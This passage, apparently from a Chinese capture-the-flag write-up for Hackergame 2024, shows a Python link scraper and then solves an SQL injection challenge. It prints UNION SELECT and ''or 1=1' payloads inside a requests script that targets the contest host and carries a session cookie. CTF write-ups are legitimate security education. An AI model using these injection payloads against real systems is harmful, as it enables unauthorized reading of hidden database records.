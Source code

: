 ```python
# 提取所有<li>标签中的href属性
links = []
for li in soup.find_all('li'):
    a_tag = li.find('a', href=True)
    if a_tag:
        links.append(a_tag['href'])

# 逐个访问这些链接
for link in links:
    full_url = requests.compat.urljoin(url, link)
    link_response = requests.get(full_url, headers=headers)
    if ("flag" in link_response.text):
        print(link_response.text)
        print(full_url)
```

`flag{zU1_xiA0_de_11m_Pa0lule!!!_017a27e7ca}`

### 窥视未知

![image-15](/Users/upwind/Documents/GitHub/up-wind.github.io/assets/2024-11-11-hackergame2024_writeup/image-15.png)

execute_query 是一个很明显的 sql 注入漏洞，结合前面的 `shown = true`，这里注入应该找 `shown = false`。

故注入命令为 `1' UNION SELECT title, contents FROM messages WHERE shown=false; --`，最后用 `--` 忽略后面的引号。

```python
import requests

# 获取网页内容
url = 'https://chal01-a3z57xg4.hack-challenge.lug.ustc.edu.cn:8443'
headers = {
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'zh-CN,zh-Hans;q=0.9',
    'Connection': 'keep-alive',
    'Cookie': 'session=eyJ0b2tlbiI6IjEyMDY6TUVVQ0lBZDRvMU9GVTU0MHorS2dPRk9raEw1NWtlWFVMWUVDRVQ5TnF3L010TjYyQWlFQTdxejZtUWpSZVBZZGNxSjFTKzhhWTFiWW4vRER3a0JsMFlCTDVZNzBubjQ9In0.ZzIQpQ.T6WSUjm0SaFYgVkdbleE9w86dDk; _ga_R7BPZT6779=GS1.1.1731127935.4.0.1731127935.60.0.550613029; _ga_Q8WSZQS8E1=GS1.1.1727321115.2.0.1727321115.60.0.473171826; _ga=GA1.1.819104836.1727319043',
    'Priority': 'u=0, i',
    'Referer': 'https://chal01-a3z57xg4.hack-challenge.lug.ustc.edu.cn:8443/',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.1 Safari/605.1.15'
}

link = "/view?conversation_id="
# link += "' or 1=1; --"
link += "1' UNION SELECT title, contents FROM messages WHERE shown=false; --"

full_url = requests.compat.urljoin(url, link)
link_response = requests.get(full_url, headers=headers)
print(link_response.text)
```
